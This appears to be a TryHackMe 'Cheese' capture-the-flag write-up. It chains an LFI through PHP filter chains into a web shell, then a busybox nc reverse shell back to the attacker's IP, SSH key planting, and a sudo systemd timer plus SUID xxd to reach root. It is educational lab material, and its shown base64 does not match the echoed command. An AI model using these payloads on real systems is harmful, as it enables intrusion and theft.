


# Cheese CTF — TryHackMe Writeup

**TL;DR:** LFI → RCE → User Shell → SSH Key → Sudo Systemd → SUID xxd → Root

## Target
- Machine: Cheese.thm
- Date: 2025-8-13
- Environment: TryHackMe / educational lab

## Steps:

1. Initial scan:

```bash
└─$ nmap -sV -sC -T4 -Pn -p22,80 cheese.thm

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: The Cheese Shop
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: ip-10-10-214-126.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. Directory discovery:

```bash
└─$ gobuster dir -u http://cheese.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/images               (Status: 301) [Size: 309] [--> http://cheese.thm/images/]
/login.php            (Status: 200) [Size: 834]
/server-status        (Status: 403) [Size: 275]

```

3. Finding the Hidden Entry Point:

When I encountered the login page `login.php`, I used sqlmap to check for SQL Injection vulnerabilities:
```bash
└─$ sqlmap -u  http://cheese.thm/login.php --data "username=test&password=test" -X POST 

```
The tool detected a 302 Redirect to a hidden URL:
```bash

got a 302 redirect to 'http://cheese.thm/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n] 

```
### LFI Vulnerability Discovery

Discovered the URL and find a meesage at
`http://cheese.thm/secret-script.php?file=php://filter/resource=supersecretmessageforadmin`

I noticed the file parameter was loading file contents:
`http://cheese.thm/secret-script.php?file=php://filter/resource=`

- Exploitation Method: `php://filter` wrapper to read files.

I tried reading a system file:
`http://cheese.thm/secret-script.php?file=php://filter/resource=/etc/passwd`



The contents of `/etc/passwd` were displayed!

### LFI -> RCE:

Since we confirmed LFI vulnerability, the next step was to upgrade it to Remote Code Execution using PHP filter chains.

using `php_filter_chain_generator.py`  from [synacktiv](https://github.com/synacktiv/php_filter_chain_generator).


1. Testing with `phpinfo()`:

First, I generated a payload to execute `phpinfo()` and confirm we can run PHP code:
```bash
└─$ python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'


[+] The following gadget chain will generate the following code : <?php phpinfo();?> (base64 value: PD9waHAgcGhwaW5mbygpOz8+)
[PAYLOAD]

```

URL: `http://cheese.thm/secret-script.php?file=[PAYLOAD]`



PHP code executed successfully! We have code execution.


2. Uploading Web Shell:

Next, I generated a simple web shell payload:

```bash
└─$ python3 php_filter_chain_generator.py --chain '<?= `$_GET[cmd]`?>'

[+] The following gadget chain will generate the following code : <?= `$_GET[cmd]`?> (base64 value: PD89IGAkX0dFVFswXWA/Pg)

[PAYLOAD]
```
Now we can pass commands via `cmd` parameter:
`http://cheese.thm/secret-script.php?cmd=id&file=[PAYLOAD]`


3. Reverse shell:

Prepare the payload:
```bash
echo 'busybox nc YOUR_IP 4444 -e bash' | base64     

# YmFzaCAtaSAJiAvZGV2L3RjcC9ZT1VSX0lQLzQ0NDQgMD4mMQo=
```

Execute the reverse shell:

URL: `http://cheese.thm/secret-script.php?cmd=echo 'YmFzaCAtaSAJiAvZGV2L3RjcC9ZT1VSX0lQLzQ0NDQgMD4mMQo' | base64 -d | bash&file=[PAYLOAD]`

Set up a listener then run the page:


Stabilizing the Shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z	#Ctrl+z

stty raw -echo && fg
```

## User flag

#### Privilege Escalation

After getting the reverse shell, I noticed we have write access to the `authorized_keys` file for user `comte`.

This means we can add our own SSH key and get persistent, stable access as user `comte`.


Step 1: Generate SSH Key Pair.

On our machine:
```bash
ssh-keygen -t rsa
```
(Pressed Enter to use default settings)


Step 2: Copy Public Key.
```bash
cat ~/.ssh/id_rsa.pub | xclip -selection clipboard
```
This copies the public key to clipboard.

Step 3: Add Key to Target Machine.

In the reverse shell on the target:
```bash
echo 'OUR_SSH_PUB_KEY` > /home/comte/.ssh/authorized_keys
```

Step 4: Connect via SSH.
```bash
ssh -i ~/.ssh/id_rsa comte@cheese.thm   
```
Successfully logged in as user comte with stable SSH access!

Get the flag:
```bash
cat user.txt
THM{[REDACTED]}
```

## Root flag

1. Discovering Privilege Escalation Vector

After checking sudo permissions for user `comte`:
```bash
sudo -l

    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```
User can run these commands as root without password:


2. Analyzing the Systemd Service
```bash
cat /etc/systemd/system/exploit.service 

[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

It copies `xxd` binary to `/opt/xxd` and makes it SUID root!.


3. Fixing the Broken Timer

Problem:
```bash
sudo /bin/systemctl start exploit.timer

# Failed to start exploit.timer: Unit exploit.timer has a bad unit file setting.
```

Diagnosis:
Failed to start becouse the set timer in exploit.timer is missing some unit.

```bash
cat /etc/systemd/system/exploit.timer

[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```
The timer file had incomplete configuration `OnBootSec=` was empty.

Solution:

Fixed the timer configuration:
```bash
nano /etc/systemd/system/exploit.timer
```
Updated Content:
```ini
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=0
OnUnitActiveSec=0

[Install]
WantedBy=timers.target
```

4. Activating the Service
```bash
# Reload systemd configuration
sudo /bin/systemctl daemon-reload

# Start the timer
sudo /bin/systemctl start exploit.timer

# Verify the SUID binary was created
ls -la /opt/

-rwsr-sr-x  1 root root 18712 Oct 23 05:56 xxd
```
5. Exploiting SUID xxd for Root Access

Now we can exploit this to read the root flag using [xxd GTFOBins technique](https://gtfobins.github.io/gtfobins/xxd/#file-read):

```bash
LFILE=/root/root.txt
/opt/xxd "$LFILE" | xxd -r
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{[REDACTED]}
```


